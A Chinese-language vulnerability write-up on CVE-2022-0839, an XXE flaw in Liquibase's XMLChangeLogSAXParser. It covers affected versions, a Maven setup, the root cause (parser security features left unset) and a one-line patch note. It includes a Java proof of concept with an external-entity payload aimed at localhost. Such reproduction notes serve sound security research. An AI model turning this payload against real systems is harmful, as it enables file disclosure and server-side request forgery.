



- [CVE-2022-0839 Liquibase XXE 漏洞](#cve-2022-0839-liquibase-xxe-漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [XMLChangeLogSAXParser](#xmlchangelogsaxparser)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
# CVE-2022-0839 Liquibase XXE 漏洞
## 影响版本
Version < 4.8.0
## 环境搭建
```xml
        <dependency>
            <groupId>org.liquibase</groupId>
            <artifactId>liquibase-core</artifactId>
            <version>4.7.1</version>
        </dependency>
```
## 原理分析
### XMLChangeLogSAXParser
XMLChangeLogSAXParser解析日志使用了`SAXParser`进行解析,漏洞在于获取parser时并未设置安全Feature,直接将inputStream流带入parse进行解析导致XXE.

## 漏洞复现
```java
import liquibase.changelog.ChangeLogParameters;
import liquibase.exception.ChangeLogParseException;
import liquibase.parser.core.xml.XMLChangeLogSAXParser;
import liquibase.sdk.resource.MockResourceAccessor;
import java.util.HashMap;


public class cve_2022_0839 {
    public static void main(String[] args) throws ChangeLogParseException {
        String INSECURE_XML= "<!DOCTYPE databaseChangeLog [\n" +
                "        <!ENTITY insecure SYSTEM \"http://127.0.0.1/\">\n" +
                "        ]>\n" +
                "\n" +
                "<databaseChangeLog xmlns=\"http://www.liquibase.org/xml/ns/dbchangelog\"\n" +
                "                   xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"\n" +
                "                   xsi:schemaLocation=\"http://www.liquibase.org/xml/ns/dbchangelog\n" +
                "                      http://www.liquibase.org/xml/ns/dbchangelog/dbchangelog-4.6.xsd\">\n" +
                "\n" +
                "    <changeSet id=\"1\" author=\"example\">\n" +
                "        <output>&insecure;</output>\n" +
                "    </changeSet>\n" +
                "\n" +
                "</databaseChangeLog>\n" +
                "\"\"\"";
        XMLChangeLogSAXParser xmlChangeLogSAXParser = new XMLChangeLogSAXParser();
        HashMap hashMap = new HashMap<String, String>();
        hashMap.put("com/example/insecure.xml",INSECURE_XML);
        MockResourceAccessor  resourceAccessor = new MockResourceAccessor(hashMap);
        xmlChangeLogSAXParser.parse("com/example/insecure.xml", new ChangeLogParameters(),resourceAccessor);
            }
        }

```

## 补丁
补上了setFeature.

